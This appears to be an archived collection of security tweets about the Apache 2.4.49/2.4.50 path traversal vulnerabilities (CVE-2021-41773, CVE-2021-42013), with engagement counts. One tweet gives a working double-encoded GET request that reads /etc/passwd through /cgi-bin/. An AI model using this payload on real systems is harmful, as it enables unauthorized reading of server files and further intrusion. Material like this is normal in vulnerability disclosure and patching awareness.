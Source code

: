 * https://github.com/rapid7/metasploit-framework/pull/15754#issuecomment-938575513

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

# RapidSafeguard
**https://twitter.com/RapidSafeguard/status/1446351656568852483 _at 2021-10-08 05:48:01_**
<blockquote>
Reproduce CVE-2021-42013 Apache 2.4.50 path traversal vulnerability.

Path traversal vulnerability

GET /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd

#infosec #cybersecurity #Apache https://t.co/MovReofUqO
</blockquote>


<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+FBJ5KqPVcAAfvgD.jpg" alt="http://pbs.twimg.com/media/FBJ5KqPVcAAfvgD.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1446338109294084100 _at 2021-10-08 04:54:11_**
<blockquote>
A new urgent Apache patch update has been released for the actively exploited Path Traversal issue (CVE-2021-41773), which has now been identified as a critical remote code execution #vulnerability.
